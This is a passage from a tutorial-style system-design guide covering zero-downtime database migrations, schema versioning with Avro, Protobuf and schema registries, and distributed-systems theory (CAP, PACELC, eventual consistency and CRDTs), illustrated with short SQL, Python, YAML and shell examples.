| Prisma Migrate | Node.js / TypeScript | `prisma migrate deploy` |

   Also common: golang-migrate, Knex, TypeORM, EF Core. For huge MySQL tables there are online schema change tools: **gh-ost** (built by GitHub) and **pt-online-schema-change** (Percona).
4. **Migrations in CI/CD (#74):**
   - In CI, apply all migrations to a fresh database and run the tests, so a broken migration never reaches production.
   - Lint migrations for dangerous operations with **squawk** (PostgreSQL) or **strong_migrations** (Rails).
   - In the deploy pipeline, run migrations **once** as their own step (a CI job or a Kubernetes Job) *before* the new code rolls out.
   - Make sure only one runner migrates at a time. Most tools take a lock for this.
5. **Zero-downtime "expand and contract"** (also called *parallel change*). During a rolling deploy (#78), old and new code run *at the same time*, so a single `RENAME COLUMN name TO full_name` would instantly break the old code still reading `name`. Instead:
   1. **Expand:** add the new column `full_name` (nullable). Old code doesn't notice.
   2. **Dual write:** deploy code that writes to both `name` and `full_name` but still reads `name`.
   3. **Backfill:** copy old values into `full_name` in small batches.
   4. **Switch reads:** deploy code that reads `full_name` (and still writes both).
   5. **Stop old writes:** deploy code that only uses `full_name`.
   6. **Contract:** once no running code uses `name`, drop it.
6. **Dangerous operations** (PostgreSQL examples; other databases have their own versions):
   - **`CREATE INDEX` without `CONCURRENTLY`** blocks all writes to the table while the index builds, which can take minutes on a big table. Use `CREATE INDEX CONCURRENTLY`. It can't run inside a transaction, and if it fails it leaves an `INVALID` index you must drop and retry.
   - **Long table locks.** Many `ALTER TABLE` forms need an exclusive lock. If a long query is running, the `ALTER` waits, and *every new query on that table queues up behind it*, so the site freezes. Always set `lock_timeout` (for example 5 seconds) and retry.
   - **Table rewrites.** Changing a column's type, or adding a column with a *volatile* default like `DEFAULT random()`, rewrites the entire table under lock. (Since PostgreSQL 11, adding a column with a constant default is instant.)
   - **Adding `NOT NULL` or a foreign key** scans the whole table under lock. The safer path is to add the constraint as `NOT VALID`, then run `VALIDATE CONSTRAINT` separately.
   - **Big backfills in one transaction**, like `UPDATE users SET full_name = name` on 100 million rows. This locks rows for a long time, generates a huge amount of WAL (which causes replication lag, #44), bloats the table, and if it fails at 99% everything rolls back. Use batches.
   - **"Down" migrations that drop data** can't truly be undone. Your rollback plan is usually a new *forward* migration (#81 Rollbacks).

```mermaid
flowchart TD
    Expand["1. Expand<br/>ADD COLUMN full_name NULL"] --> DualWrite["2. Deploy code<br/>write both, read name"]
    DualWrite --> Backfill["3. Backfill full_name<br/>in small batches"]
    Backfill --> SwitchReads["4. Deploy code<br/>read full_name, write both"]
    SwitchReads --> StopOld["5. Deploy code<br/>use only full_name"]
    StopOld --> Contract["6. Contract<br/>DROP COLUMN name"]
```

```mermaid
flowchart LR
    PR["Pull request"] --> CI["CI: apply all migrations<br/>to a fresh DB, run tests,<br/>lint for dangerous ops"]
    CI --> Migrate["Deploy step 1:<br/>run migrations once"]
    Migrate --> Rollout["Deploy step 2:<br/>rolling update of app pods"]
    Rollout --> Later["Later release:<br/>contract migration"]
```

**💻 Example:** An Alembic migration for the "expand" step. It adds a nullable column and builds the index concurrently, outside a transaction:

```python
"""expand: add users.full_name"""
from alembic import op
import sqlalchemy as sa

revision = "20261027_add_full_name"
down_revision = "20261001_create_users"

def upgrade():
    op.add_column("users", sa.Column("full_name", sa.Text(), nullable=True))   # instant, no rewrite
    with op.get_context().autocommit_block():           # CONCURRENTLY can't run in a transaction
        op.create_index("ix_users_full_name", "users", ["full_name"],
                        postgresql_concurrently=True)

def downgrade():
    with op.get_context().autocommit_block():
        op.drop_index("ix_users_full_name", table_name="users", postgresql_concurrently=True)
    op.drop_column("users", "full_name")
```

The backfill, run repeatedly by a script until it updates 0 rows. Each batch is a short transaction:

```sql
UPDATE users SET full_name = name
WHERE id IN (
    SELECT id FROM users
    WHERE full_name IS NULL AND name IS NOT NULL
    LIMIT 5000
);
```

The contract step, weeks later, with a lock timeout so it can't freeze the site:

```sql
SET lock_timeout = '5s';                 -- give up (and retry later) instead of blocking everyone
ALTER TABLE users DROP COLUMN name;
```

Running migrations as a separate pipeline job (GitHub Actions):

```yaml
  migrate:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - run: pip install -r requirements.txt
      - run: alembic upgrade head          # apply pending migrations once, before the rollout
        env:
          DATABASE_URL: ${{ secrets.DATABASE_URL }}
```

**🌍 Real-world usage:** GitHub built and open-sourced **gh-ost** to change huge MySQL tables without long locks. **Stripe**'s engineering post "Online migrations at scale" describes a four-step dual-writing pattern (dual write, change reads, change writes, remove old data) for moving data with zero downtime. It's the same idea as expand and contract, which Martin Fowler's site documents as "Parallel Change". Rails teams commonly use the **strong_migrations** gem to block unsafe migrations, and PostgreSQL teams use **squawk** in CI.

**⚖️ Trade-offs:**

| Approach | When to use | Downside |
|---|---|---|
| Single-step `ALTER` | Small tables, or changes that are instant and backward compatible (add a nullable column) | Breaks running code if it removes or renames anything |
| Expand and contract | Renames, type changes and splits on live systems | Several deploys spread over days or weeks, plus temporary dual-write code |
| Online schema change tools (gh-ost, pt-osc) | Big MySQL tables that need a rebuild | Extra tooling, needs disk space for a copy, takes time |
| Maintenance window (downtime) | Internal tools, or when it's truly unavoidable | Users can't use the app |

**⚠️ Common mistakes:**
- Renaming or dropping a column in the same deploy as the code change, so old pods crash during the rollout.
- Plain `CREATE INDEX` on a big production table, which blocks writes.
- No `lock_timeout`, so an `ALTER` waits behind a long query and freezes all traffic.
- Backfilling millions of rows in one giant transaction.
- Editing a migration that has already run somewhere. Write a new migration instead.

**🎯 Remember:** Never break the version that's running right now: expand, migrate, contract. Build indexes `CONCURRENTLY`, backfill in batches, and always set `lock_timeout`.

**🔗 See also:** [#49 Schema Versioning](#49-schema-versioning), [#74 CI/CD](#74-cicd), [#78 Rolling Deployments](#78-rolling-deployments), [#79 Blue-Green Deployment](#79-blue-green-deployment), [#77 Feature Flags](#77-feature-flags), [#81 Rollbacks](#81-rollbacks), [#40 Database Indexing](#40-database-indexing)

---

### 49. Schema Versioning

> **In one line:** Schema versioning keeps track of which version of your data's "shape" is in use, so old and new code (and the senders and receivers of messages) can keep understanding each other.

**🏠 Real-life analogy:** A teacher says "turn to page 52", but half the class has the 3rd edition of the textbook and half has the 4th. That only works if (1) everyone knows which edition they have, and (2) the new edition kept the old page numbers, or at least only *added* pages at the end. Schema versioning is the edition number, plus rules for publishing new editions that don't confuse readers of the old ones.

**❓ What problem does it solve?**
- **Database:** which migrations have already been applied to *this* database? Without a record, the migration tool can't know what to run next.
- **Rolling deploys:** during a deploy, old (N-1) and new (N) versions of your app run *at the same time* against the *same* database. If the schema only works for one of them, the other one crashes.
- **Events and messages:** a Kafka topic can keep messages for days. A consumer written months ago reads messages produced today. If a producer renames a field, consumers crash or silently lose data.

**⚙️ How it works:**

1. **The schema version table.** Every migration tool creates its own bookkeeping table:

| Tool | History table | What it stores |
|---|---|---|
| Flyway | `flyway_schema_history` | Each applied version, description, checksum, time, success |
| Liquibase | `DATABASECHANGELOG` (+ `DATABASECHANGELOGLOCK`) | Each applied changeset with a checksum |
| Alembic | `alembic_version` | The current revision ID (usually a single row) |
| Rails | `schema_migrations` | One row per applied migration version |
| Django | `django_migrations` | App name, migration name, applied time |
| Prisma | `_prisma_migrations` | Each migration, checksum, start and finish time |

   **Checksums** catch a sneaky problem: if someone edits a migration file that already ran, Flyway's `validate` (and similar checks in other tools) fails, instead of letting environments silently drift apart.
2. **App and database compatibility: "N and N-1".** The golden rule is that every schema version must work with **both the current and the previous app version**.
   - The order is: migrate the database (an *expand* change), then deploy the code, then *later* contract (#48).
   - This also keeps **rollback** safe. If you roll the code back to N-1 (#81), the schema still supports it.
3. **Versioning message and event schemas.** Define each message's shape in a schema language:
   - **Avro** (compact binary, popular with Kafka),
   - **Protobuf** (Google's format, used by gRPC, #18),
   - **JSON Schema** (for JSON messages).

   Then store the schemas in a **schema registry**, for example **Confluent Schema Registry**, AWS Glue Schema Registry, Apicurio, or Buf Schema Registry for Protobuf.
   - The producer registers its schema and puts the small **schema ID** in each message (Confluent's format is a magic byte plus a 4-byte schema ID, then the data).
   - The consumer looks up that ID (and caches it) to decode the message.
   - The registry **rejects** a new schema version that breaks the configured compatibility rule, *before* it reaches production.
4. **Compatibility modes** (the names Confluent Schema Registry uses):

| Mode | Meaning | Safe changes (Avro) | Who upgrades first |
|---|---|---|---|
| Backward (Confluent's default) | New readers can read old data | Delete a field, add an optional field with a default | Consumers first |
| Forward | Old readers can read new data | Add a field, delete an optional field that has a default | Producers first |
| Full | Both backward and forward | Add or delete only optional fields with defaults | Any order |
| None | No checks | Anything | Coordinate by hand (risky) |

   The `_TRANSITIVE` variants (for example `BACKWARD_TRANSITIVE`) check the new schema against *all* previous versions, not just the latest one, which matters when consumers may replay very old messages.
5. **Protobuf rules of thumb:** never change a field's number, never reuse a deleted field's number (mark it `reserved`), and add new fields with new numbers. Unknown fields are skipped by old readers, which is what makes adding fields safe.
6. **The same idea for HTTP APIs** is covered in #23 API Versioning and #24 Semantic Versioning.

```mermaid
flowchart LR
    LB["Load Balancer"] --> Old1["Pod v1 (N-1)<br/>reads and writes name"]
    LB --> Old2["Pod v1 (N-1)<br/>reads and writes name"]
    LB --> New1["Pod v2 (N)<br/>writes name AND full_name"]
    Old1 --> DB[("Schema version 2<br/>has name AND full_name")]
    Old2 --> DB
    New1 --> DB
```

```mermaid
sequenceDiagram
    participant P as Producer
    participant SR as Schema Registry
    participant K as Kafka
    participant C as Consumer
    P->>SR: Register OrderPlaced schema v2
    alt Compatible with v1
        SR-->>P: OK, schema ID 12
    else Breaking change
        SR-->>P: 409 Conflict, incompatible schema
    end
    P->>K: Message bytes tagged with schema ID 12
    K-->>C: Deliver message
    C->>SR: Fetch schema 12 (cached afterwards)
    SR-->>C: Schema v2
    Note over C: Decodes v2 data with its own reader schema
```

**💻 Example:** Checking the current schema version in the database:

```sql
SELECT version_num FROM alembic_version;                       -- Alembic

SELECT installed_rank, version, description, success           -- Flyway
FROM flyway_schema_history
ORDER BY installed_rank DESC
LIMIT 3;
```

An Avro schema, version 2. `coupon_code` is new, and because it's optional with a default, it is both backward and forward compatible (FULL):

```json
{
  "type": "record",
  "name": "OrderPlaced",
  "namespace": "com.shop.events",
  "fields": [
    {"name": "order_id",    "type": "string"},
    {"name": "total_cents", "type": "long"},
    {"name": "coupon_code", "type": ["null", "string"], "default": null}
  ]
}
```

Telling Confluent Schema Registry to enforce FULL compatibility for the `orders` topic's values:

```bash
curl -X PUT -H "Content-Type: application/vnd.schemaregistry.v1+json" \
  --data '{"compatibility": "FULL"}' \
  http://schema-registry:8081/config/orders-value
```

The same event in Protobuf, after removing an old field safely:

```protobuf
syntax = "proto3";

message OrderPlaced {
  string order_id = 1;
  int64 total_cents = 2;
  reserved 3;                       // was 'promo', so number 3 must never be reused
  reserved "promo";
  optional string coupon_code = 4;  // new field, new number
}
```

**🌍 Real-world usage:** Flyway and Liquibase are standard in Java shops, Alembic in SQLAlchemy projects, and Django and Rails have migrations built in. In each case, the history table is how CI/CD knows what to apply. Confluent Schema Registry is the common companion to Apache Kafka for Avro, Protobuf and JSON Schema. Protobuf was created at Google and is used for gRPC APIs everywhere, and its field-number rules exist precisely so that services deployed at different times keep working together.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Backward compatibility | Consumers can be upgraded first (the common case) | Producers must wait until consumers are upgraded |
| Forward compatibility | Producers ship first (for example, many slow-to-update consumers) | Consumers must tolerate unknown fields |
| Full compatibility | Many independent teams, long message retention | Only optional fields with defaults can change, which is the strictest |
| New topic / new version (v2) | A truly breaking redesign | Must run both versions and migrate consumers |
| No schema at all (raw JSON) | Prototypes | Breakages are found in production, by consumers |

**⚠️ Common mistakes:**
- Editing a migration that already ran. Checksums fail, or worse, environments silently differ.
- Changing the production schema by hand outside the migration tool, so the history table lies.
- Deploying code that needs a column before the migration has run, or dropping a column while N-1 pods still use it.
- Renaming an event field or changing its type. To every consumer, that's a delete plus an add.
- Reusing a deleted Protobuf field number, so old messages get decoded into the wrong field.

**🎯 Remember:** Two versions are always running at once. The database schema must serve app N and N-1, and event schemas must evolve compatibly: add optional fields with defaults, and never rename or reuse.

**🔗 See also:** [#48 Database Migrations](#48-database-migrations), [#23 API Versioning](#23-api-versioning), [#24 Semantic Versioning](#24-semantic-versioning), [#31 Message Queues](#31-message-queues), [#33 Event-Driven Architecture](#33-event-driven-architecture), [#18 gRPC](#18-grpc), [#78 Rolling Deployments](#78-rolling-deployments), [#81 Rollbacks](#81-rollbacks)

---

### 🧠 Part 7 Quiz

**Q1. What is a database index, and what does it cost you?**
<details><summary>Show answer</summary>

An index is a separate, sorted data structure (usually a B+tree) that maps column values to row locations, so the database can jump to matching rows instead of doing a full table scan. The cost is slower writes (every INSERT, UPDATE and DELETE must update every index) plus extra disk and memory. That's why you index only the columns you actually filter, join and sort by.

</details>

**Q2. Your "list orders" API endpoint used to take 50 ms and now takes 4 seconds as data has grown. What would you do?**
<details><summary>Show answer</summary>

Measure first. Check the query count per request, because hundreds of similar queries means N+1, which you fix with eager loading or `WHERE id IN (...)`. Then use `pg_stat_statements` and `EXPLAIN ANALYZE` on the main query to look for a Seq Scan with huge "Rows Removed by Filter", and add a suitable composite index such as `(user_id, created_at)`. Also select only the needed columns, replace deep OFFSET with keyset pagination, and check whether requests are waiting on an exhausted connection pool.

</details>

**Q3. Partitioning vs sharding vs replication: what's the difference?**
<details><summary>Show answer</summary>

Partitioning splits one big table into pieces *inside one database server*, which helps pruning and lets you drop old data cheaply. Sharding splits the data *across many servers*, each holding only its slice, which scales writes and storage. Replication *copies* the same data to several servers, which gives availability and read scaling but doesn't scale writes. Large systems often combine all three: each shard is a replicated cluster whose big tables are partitioned.

</details>

**Q4. A user updates their profile name, refreshes the page, and sees the old name. What's happening, and how do you fix it?**
<details><summary>Show answer</summary>

The write went to the primary, but the read went to an asynchronous read replica that hadn't caught up yet (replication lag), which is the read-your-own-writes problem. Fixes: read from the primary for a few seconds after that user writes, always read the user's own data from the primary, or save the primary's LSN/GTID after the write and only read from a replica that has replayed past it.

</details>

**Q5. Why is `ALTER TABLE users RENAME COLUMN name TO full_name` dangerous during a rolling deploy, and what's the safe way?**
<details><summary>Show answer</summary>

During a rolling deploy, old (N-1) and new (N) app versions run at the same time. The moment the column is renamed, the old pods that still query `name` start failing. The safe way is expand and contract: add `full_name`, deploy code that writes both, backfill in batches, switch reads to `full_name`, stop writing `name`, and only then drop `name` in a later release.

</details>


## Part 8 — Distributed Systems Theory

A **distributed system** is a group of computers (called **nodes**) that talk over a network and work together so that, to the user, they look like one single service. Netflix, WhatsApp, Amazon and Google are all distributed systems: thousands of machines pretending to be "one app". We spread work across machines to handle more users (scale), to survive machine failures (fault tolerance), and to be close to users around the world (lower latency, i.e. less waiting time). But the moment you have more than one machine, strange new problems appear: messages get lost, clocks disagree, and a machine that is merely slow looks exactly like a machine that is dead. This part gives you the theory that explains *why* those problems happen, plus the vocabulary every system-design interviewer expects.

**The 8 fallacies of distributed computing.** These are false assumptions that engineers new to distributed systems tend to make. The list is usually credited to L Peter Deutsch and colleagues at Sun Microsystems in the 1990s (James Gosling added the 8th).

| Fallacy (what people wrongly assume) | Reality |
|---|---|
| 1. The network is reliable | Packets get lost, cables get cut, switches reboot |
| 2. Latency is zero | Every call takes time; a cross-ocean round trip takes about 100 ms or more |
| 3. Bandwidth is infinite | Big payloads clog links and cost money |
| 4. The network is secure | Anyone on the path may read or change traffic unless you encrypt it |
| 5. Topology doesn't change | Servers, IPs and routes change all the time (autoscaling, failover) |
| 6. There is one administrator | Many teams, clouds and companies control different pieces |
| 7. Transport cost is zero | Serializing data, data-transfer fees and network gear all cost money |
| 8. The network is homogeneous | Different hardware, OSes, protocols and versions must talk to each other |

```mermaid
flowchart LR
    DS["Distributed System<br/>many machines, one service"] --> NP["Network Partitions<br/>alive but cut off (topic 52)"]
    DS --> CS["Clock Skew<br/>clocks disagree (topic 53)"]
    NP --> CAP["CAP Theorem<br/>C or A during a split (topic 50)"]
    CAP --> EC["Eventual Consistency<br/>agree... eventually (topic 51)"]
    CS --> EC
    NP --> LE["Leader Election<br/>pick one boss (topic 54)"]
    LE --> DL["Distributed Locks<br/>one at a time (topic 55)"]
```

---

### 50. CAP Theorem

> **In one line:** When the network between copies of your data breaks, you must choose between giving a possibly-old answer (staying Available) or refusing to answer until it's fixed (staying Consistent).

**🏠 Real-life analogy:** Imagine a bank with two branches in different towns. They keep one shared list of account balances by phoning each other after every change. One day the phone line goes down. A customer walks into Branch B and asks to withdraw $100. Branch B has two choices: say "Sorry, I can't confirm your balance with Branch A, please come back later" (correct but **not available**), or hand over the cash using its own possibly-outdated list (available but maybe **not consistent** — the customer might have already emptied the account at Branch A).

**❓ What problem does it solve?** CAP is not a tool, it's a law of nature for distributed data. It tells you what is *impossible*, so you stop promising it.
- Without understanding CAP, teams promise "always up AND always 100% correct" and then get surprised during a network failure: two people buy the same last concert ticket, or the whole system suddenly returns errors.
- With CAP in mind, you decide *in advance*, feature by feature, what should happen when (not if) the network splits.

**⚙️ How it works:**

The theorem was proposed by Eric Brewer in 2000 and formally proven by Seth Gilbert and Nancy Lynch in 2002. It talks about three properties:

1. **C — Consistency (precisely: linearizability).** Every read sees the most recent completed write, or gets an error. The system behaves as if there is only *one* copy of the data. ⚠️ This is **not** the "C" in ACID (which means "the database's rules and constraints are respected").
2. **A — Availability.** Every request that reaches a node that hasn't crashed gets a real, non-error response. No "try again later". (The answer is allowed to be stale, i.e. out of date.)
3. **P — Partition tolerance.** The system keeps operating even if the network drops or delays messages between nodes. A **partition** means nodes are alive but can't talk to each other (see #52).

**The key insight:** in a real distributed system, partitions *will* happen (fallacy #1: the network is not reliable). You don't get to "choose" P — it's forced on you. So CAP really says:

> **While a partition is happening, each request must either give up C (answer with possibly stale data) or give up A (return an error / wait).** When there is no partition, you can have both C and A.

**The "pick 2 of 3" misconception.** People often draw CAP as a triangle and say "pick any two". That is misleading — Brewer himself said so in his 2012 article "CAP Twelve Years Later":
- A "CA" distributed system doesn't really exist. A single Postgres server is "CA" only because there is no network *between nodes* to break. As soon as you replicate, you face P.
- The choice isn't made once for the whole company. You can choose per feature or even per request (strong reads for checkout, relaxed reads for recommendations).
- In a CP system, the *majority* side of a split usually keeps working. Only the minority side refuses requests.

**CP vs AP in practice:**
- **CP (consistent, may refuse):** during a split, nodes that can't confirm they have the latest data return errors or block. Good for money, inventory, locks, configuration, leader election.
- **AP (available, may be stale):** during a split, every node keeps answering and accepting writes; copies are reconciled later (see #51 Eventual Consistency). Good for likes, carts, feeds, view counts, sessions.

```mermaid
flowchart TD
    WriteX["Client X writes balance = 50 to Node 1"] --> N1["Node 1<br/>balance = 50"]
    N1 -.->|"replication BLOCKED by partition"| N2["Node 2<br/>still has balance = 100"]
    ReadY["Client Y asks Node 2 for the balance"] --> N2
    N2 --> Choice{"Node 2 cannot reach Node 1.<br/>What now?"}
    Choice -->|"CP choice"| CPRes["Return an error or wait<br/>(correct, but unavailable)"]
    Choice -->|"AP choice"| APRes["Answer 100<br/>(available, but stale)"]
```

```mermaid
sequenceDiagram
    participant Y as Client Y
    participant N2 as Node 2
    participant N1 as Node 1
    Note over N1,N2: Network partition - Node 2 cannot reach Node 1
    Y->>N2: GET balance
    alt CP system
        N2-xN1: confirm latest value (message lost)
        N2-->>Y: 503 error - please retry later
    else AP system
        N2-->>Y: 100 (fast, but maybe stale)
        Note over N1,N2: After the network heals, replicas reconcile
    end
```

**Which systems lean which way?**

| Leaning | Behavior during a partition | Examples |
|---|---|---|
| **CP** | Minority side refuses reads/writes until it rejoins | ZooKeeper, etcd, Consul, HBase, Google Spanner (technically CP; Google argues partitions on its private network are so rare that it is "effectively CA") |
| **AP-style configuration** | Accept operations on separated replicas, then reconcile | Dynamo-style designs, Riak, CouchDB; Cassandra behavior depends on the consistency level and replicas reachable |

These are descriptions of **operations and configurations**, not permanent labels for entire products.
An eventually consistent read option does not by itself prove CAP availability. For example, DynamoDB
offers both eventually consistent and strongly consistent reads for tables, while its global secondary
indexes support only eventually consistent reads. Check the selected operation, topology, and failure
behavior in the [DynamoDB consistency documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/HowItWorks.ReadConsistency.html).

**Bank balance vs social-media like counter:**
- **Bank balance → lean CP.** If two ATMs on opposite sides of a partition both let you withdraw $100 from a $100 account, the bank loses money. Interesting nuance from Brewer's 2012 article: real ATMs often take a *bounded* AP risk — while offline they allow only small withdrawals and settle up later.
- **Like counter → AP.** If a post shows 1,203 likes instead of 1,205 for a few seconds, nobody is harmed. Refusing to show the post at all would be far worse.

**PACELC — the everyday extension.** Partitions are rare; latency is constant. In 2010 Daniel Abadi extended CAP: **if Partition → choose Availability or Consistency; Else (normal times) → choose Latency or Consistency.** Even with a healthy network, strong consistency means waiting for other replicas (maybe in another region) before answering — that wait is latency.

| System (default settings) | If Partition (P) | Else (E) | Class |
|---|---|---|---|
| Cassandra, Riak, DynamoDB (default reads) | Availability | Latency | PA/EL |
| HBase, Google BigTable | Consistency | Consistency | PC/EC |
| Google Spanner | Consistency | Consistency | PC/EC |
| etcd, ZooKeeper | Consistency | Consistency | PC/EC |
| Cassandra / Azure Cosmos DB with tunable levels | Depends on the level you pick per request | Depends | Tunable |

**💻 Example:** Many databases let you pick C or A *per request*. DynamoDB reads are eventually consistent by default; you can ask for a strongly consistent read:

```python
import boto3

table = boto3.resource("dynamodb").Table("Accounts")

# Default: eventually consistent read -> cheaper, faster, may be slightly stale (AP-ish)
likes = table.get_item(Key={"account_id": "42"})

# Strongly consistent read -> returns the latest successful write (CP-ish).
# Costs twice the read capacity, and AWS documents that it may fail with a
# server error (HTTP 500) during a network delay or outage: that's CAP in action!
balance = table.get_item(Key={"account_id": "42"}, ConsistentRead=True)
```

Cassandra does the same with consistency levels (in `cqlsh`):

```sql
CONSISTENCY QUORUM;   -- a majority of replicas must answer: leans toward C
SELECT balance FROM accounts WHERE id = 42;

CONSISTENCY ONE;      -- any single replica is enough: leans toward A (and low latency)
SELECT likes FROM posts WHERE id = 123;
```

**🌍 Real-world usage:**
- **Amazon's Dynamo (2007 paper)** chose AP for the shopping cart: "Add to cart" must always work, even during failures.
- **Kubernetes** stores all cluster state in **etcd** (CP). If etcd loses its majority, the API server can't save changes — but already-running pods keep running.
- **Google Spanner** is CP but runs on Google's private, heavily redundant network so partitions are very rare; Brewer's 2017 paper "Spanner, TrueTime and the CAP Theorem" explains this "effectively CA" claim.
- **Netflix and Apple** run very large Cassandra clusters (AP) for data where availability matters more than perfect freshness.

**⚖️ Trade-offs:**

| Choice | When to use | Downside |
|---|---|---|
| CP | Money, inventory counts, unique usernames, locks, config, leader election | Some users get errors or timeouts during a partition; more latency (waiting for a majority) |
| AP | Likes, views, carts, feeds, presence, analytics, caches | Users may see stale data; you must design conflict resolution |
| Tunable per request | Mixed apps (strong for checkout, relaxed for browsing) | More complexity; developers must choose correctly every time |

**⚠️ Common mistakes:**
- Saying "our system is CA". If data is replicated over a network, partitions can happen and you must choose C or A during them.
- Confusing CAP consistency (linearizability) with ACID consistency (constraints are respected).
- Making one global choice for the whole product instead of choosing per feature.
- Forgetting PACELC: most of the time there's no partition, and the real daily trade-off is **latency vs consistency**.
- Thinking "AP" means "no consistency at all" — AP systems are usually *eventually* consistent (#51).

**🎯 Remember:** Partitions are unavoidable, so CAP really asks: "When the network splits, do you return an error (CP) or a possibly stale answer (AP)?" And PACELC adds: "Even when it's healthy, do you pay latency for consistency?"

**🔗 See also:** [#51 Eventual Consistency](#51-eventual-consistency), [#52 Network Partitions](#52-network-partitions), [#44 Replication](#44-replication), [#45 Read Replicas](#45-read-replicas), [#54 Leader Election](#54-leader-election), [#36 Distributed Transactions](#36-distributed-transactions)

---


### 51. Eventual Consistency

> **In one line:** If people stop making changes, all copies of the data will end up agreeing — but for a short while, different copies may show different answers.

**🏠 Real-life analogy:** A teacher moves the exam from Monday to Tuesday and tells a few students. The news spreads by word of mouth. For an hour, some students "know" Monday and some "know" Tuesday. But if the teacher doesn't change the date again, by evening every student knows Tuesday. Nobody was blocked from asking — they just sometimes got an old answer for a while.

**❓ What problem does it solve?** Strong consistency (#50) needs coordination: before answering, a node must check with other nodes, maybe on another continent. That costs latency and fails during partitions.
- Without eventual consistency, a global app would make every "like" wait for a round trip to other regions (often 100+ ms), and the feature would fail whenever one region is cut off.
- With it, each replica (copy of the data) accepts reads and writes locally and syncs in the background: fast and always on.
- The price: temporary disagreement, and you must decide what happens when two copies were changed at the same time (a **conflict**).

**⚙️ How it works:**
1. A write goes to one (or a few) replicas and is acknowledged quickly.
2. Replicas pass the change to each other **asynchronously** (in the background) using replication logs, gossip (nodes chatting with random peers), "read repair" (fixing stale copies noticed during reads) and anti-entropy jobs (periodic comparison of data, often with Merkle trees — hash trees that quickly find differences).
3. Meanwhile, a read may hit a replica that hasn't received the update yet → a **stale read**. The gap is usually milliseconds to seconds, but there is **no guaranteed upper bound**.
4. If two replicas accepted *different* writes to the same item concurrently, a **conflict-resolution** rule decides the final value.

**The consistency spectrum (strongest → weakest):**

| Model | Plain-English guarantee | Example |
|---|---|---|
| **Linearizable (strong)** | Acts like a single copy: once a write finishes, every later read (by anyone) sees it | etcd, ZooKeeper writes, Google Spanner |
| **Sequential** | Everyone sees all operations in the *same order*, and each client's own operations in the order it issued them — but that shared order may lag behind real time | ZooKeeper reads (ordered, but a read may be slightly behind) |
| **Causal** | If A *caused* B (a reply to a comment), everyone sees A before B; unrelated writes may appear in different orders | A reply never appears before the comment it answers; MongoDB causally consistent sessions |
| **Read-your-writes** | *You* always see your own updates (others may not yet) | After editing your bio, you see the new bio on refresh |
| **Monotonic reads** | Once you've seen a value, you never see an older one later ("time doesn't go backwards") | Refreshing a feed never makes a comment vanish and reappear |
| **Eventual** | If writes stop, all replicas converge. No ordering promises in the meantime | DNS, like counters, Cassandra at consistency level ONE |

**Everyday examples:**
- **DNS propagation (#1):** you change your domain's IP address, but resolvers around the world keep cached old answers until their TTL (time-to-live) expires. For a while some users reach the old server, some the new one.
- **Like / view counts:** your phone and your laptop may show slightly different counts for a few seconds.
- **Amazon shopping cart (Dynamo paper, 2007):** Amazon decided "Add to cart" must *never* fail. Dynamo could keep several conflicting versions of a cart; when it found them, the cart merged them (roughly, a union of items). Result: an added item is never lost — but the paper admits a *deleted* item can occasionally reappear. A deliberate, customer-friendly trade-off.

**Conflict resolution strategies:**
- **Last-write-wins (LWW):** keep the version with the biggest timestamp, drop the others. Super simple, used by Cassandra (per column) and DynamoDB global tables. Danger: it **silently throws away** concurrent writes and depends on clocks being right (#53).
- **Vector clocks:** each version carries a small list of counters, one per replica, e.g. `{A:2, B:1}`. Comparing two lists tells you whether one version came *after* the other (safe to replace) or they are *concurrent* (a real conflict). Concurrent versions are kept as "siblings" for the app to merge. Used by Amazon's Dynamo and Riak.
- **CRDTs (Conflict-free Replicated Data Types):** special data structures whose merge always gives the same result no matter the order or how many times you merge (mathematically: merge is commutative, associative and idempotent). Examples: G-Counter (grow-only counter), PN-Counter (up and down), OR-Set (add/remove set). Used by Riak data types, Redis Enterprise Active-Active, and collaborative-editing libraries such as Automerge and Yjs.

```mermaid
sequenceDiagram
    participant U as User
    participant US as Replica US
    participant EU as Replica EU
    participant RA as Replica Asia
    participant F as Friend
    U->>US: like the post (likes = 101)
    US-->>U: OK (acknowledged locally, fast)
    US->>EU: replicate likes = 101
    F->>RA: read likes
    RA-->>F: 100 (stale - update not here yet)
    US->>RA: replicate likes = 101 (delayed)
    F->>RA: read likes again
    RA-->>F: 101
    Note over US,RA: All replicas converged on 101
```

**💻 Example:** A G-Counter CRDT. Each replica only increments its *own* slot; merging takes the max of each slot. Two data centers can count likes independently during a partition and still agree perfectly afterwards.

```python
class GCounter:
    """Grow-only counter CRDT: each replica only bumps its OWN slot."""
    def __init__(self, replica_id):
        self.id = replica_id
        self.counts = {}                      # replica_id -> count

    def increment(self, n=1):
        self.counts[self.id] = self.counts.get(self.id, 0) + n

    def value(self):
        return sum(self.counts.values())

    def merge(self, other):
        # max() per slot: merge order and duplicate merges don't matter
        for rid, c in other.counts.items():
            self.counts[rid] = max(self.counts.get(rid, 0), c)

us, eu = GCounter("us"), GCounter("eu")
us.increment(3)                  # 3 likes arrive in the US during a partition
eu.increment(2)                  # 2 likes arrive in Europe at the same time
us.merge(eu); eu.merge(us)       # network heals, replicas exchange state
print(us.value(), eu.value())    # 5 5  -> converged, no likes lost
```

Compare with LWW: if both replicas simply stored "likes = 103" and "likes = 102" with timestamps, LWW would keep one and lose the other's increments.

**🌍 Real-world usage:**
- **Cassandra, DynamoDB (default reads), Riak, CouchDB** are eventually consistent by default.
- **Amazon S3** was eventually consistent for overwrites and deletes for years; in December 2020 AWS announced strong read-after-write consistency for all S3 operations — a sign of how much developers struggle with stale reads.
- **Read replicas (#45)** in Postgres/MySQL are eventually consistent: replication lag means a replica can be seconds behind the primary.
- **CDNs and caches (#10, #38)** serve slightly old content until it expires or is invalidated.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Very low latency: read/write the nearest replica | Users may see stale data for an unknown time |
| Stays available during partitions | Conflicts need a resolution strategy (LWW loses data, siblings add app complexity) |
| Scales across regions easily | Harder to reason about and to test |
| Survives node failures gracefully | Unsuitable for invariants like "balance never below 0" or "usernames are unique" |

**⚠️ Common mistakes:**
- Writing to the primary and immediately reading from a replica, so the user thinks their save was lost. Fix: read-your-writes (route that user's reads to the primary for a few seconds, or wait until the replica has caught up).
- Using last-write-wins for counters or carts, silently losing updates.
- Assuming "eventually" means "within one second". Measure replication lag and alert on it.
- Using eventual consistency for things that must never be violated (money, uniqueness, stock levels).
- Not designing the UI for it (e.g., show the user's own action optimistically instead of re-fetching from a lagging replica).

